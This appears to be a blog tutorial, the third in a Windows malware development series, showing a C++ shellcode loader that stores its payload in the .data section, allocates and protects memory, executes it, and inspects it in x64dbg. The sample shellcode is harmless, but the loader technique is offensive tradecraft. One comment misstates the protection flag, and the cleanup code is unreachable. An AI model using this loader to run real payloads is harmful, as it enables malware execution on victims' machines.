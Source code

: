 ```yaml
---
title: "Windows Malware Development Part 3: Payload Placement Basics - .data"
header:
  teaser: /assets/images/pe.png
  teaser_home_page: true
categories:
  - Malware Dev
classes: wide
tags:
  - Malware
toc: true
toc_label: Contents
---
```

## Objective ##

Hey guys, welcome to the third part of Windows Malware Development, in which we will be beginning with the basics of payload placement. In this post, we will be looking at how to place our shellcode in the `.data` and `.rdata` sections.

## .data Section ##

Placing our payload in the `.data` section is relatively easy. All we have to do is make sure that our shellcode variable is defined outside of our `main()` function. 

>You will need Visual Studio/Visual studio build tools, x64dbg and ProcessHacker for this exercise.

### Writing the code ###

So, using our code from the previous post, all we have to do is remove the `#pragma` directive and the `declspec` line that tells it where to store the shellcode. Also, we do not define it as a `const`:

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

unsigned char Text_RawData[] = {
    0x90,    // NOP
    0x90,    // NOP
    0xcc,    // INT3
    0xc3     // RET
};

int main() {
    printf("[i] Text_RawData function: 0x%p \n", Text_RawData);

	// Allocate executable memory.
    size_t codeSize = sizeof(Text_RawData);
    printf("[1] Press <Enter> To Allocate Memory ...");
	getchar();
	void* executableMemory = VirtualAlloc(NULL, codeSize, MEM_COMMIT |  MEM_RESERVE, PAGE_READWRITE);
	
	if (executableMemory == NULL) {
        printf("VirtualAlloc Failed With Error : %d \n", GetLastError());
        return -1;
    }
	
	printf("[i] Memory allocated at : 0x%p \n", executableMemory);
	
	// Copy the shellcode from Text_RawData to the executable memory.
    printf("[2] Press <Enter> To Write Shellcode ...");
	getchar();
	memcpy(executableMemory, Text_RawData, codeSize);
    
	// Change the memory protection to PAGE_EXECUTE_READ.
    DWORD oldProtect;
    if (!VirtualProtect(executableMemory, codeSize, PAGE_EXECUTE_READWRITE, &oldProtect)) {
        printf("VirtualProtect Failed With Error : %d \n", GetLastError());
        return -1;
    }
	
	// Execute our shellcode
    printf("[#] Press <Enter> To Run ...");
	getchar();
	((void (*)())executableMemory)();
	return 0;
	
	// Free the allocated memory.
    VirtualFree(executableMemory, 0, MEM_RELEASE);

    printf("[#] Press <Enter> To Quit ...");
    getchar();
    return 0;
}
```

### Analyzing in x64dbg ###

In order to get a better understanding of how this works on a machine level, lets have a look at our program in x64dbg.

If you are using VS build tools, you can use the below command:

```
cl.exe /nologo /Ox /MT /W0 /GS- /DNDEBUG /Tcfilename.cpp /link /OUT:output.exe /SUBSYSTEM:CONSOLE /MACHINE:x64
```

Now, lets run our program and attach the debugger to it. As our console prints out the address of our raw data array (our shellcode), lets first go to that address by jumping to it:

![jmp_data.png](/assets/images/jmp_data.png)

Once we reach there in our CPU window, we can see the series of instructions of our shellcode. If we right click on the first instruction of our shellcode, and follow it in the memory map window, we can see that the shellcode resides in the `.data` section now:

![data_sec.png](/assets/images/data_sec.png)

There are no changes in the execution part of our program, so execution will happen in the same way as the `.text` shellcode program from our previous post.

That's all for this post! See you in the next, in which we will be covering the last part of payload placement, which will be using the `.rsrc` section.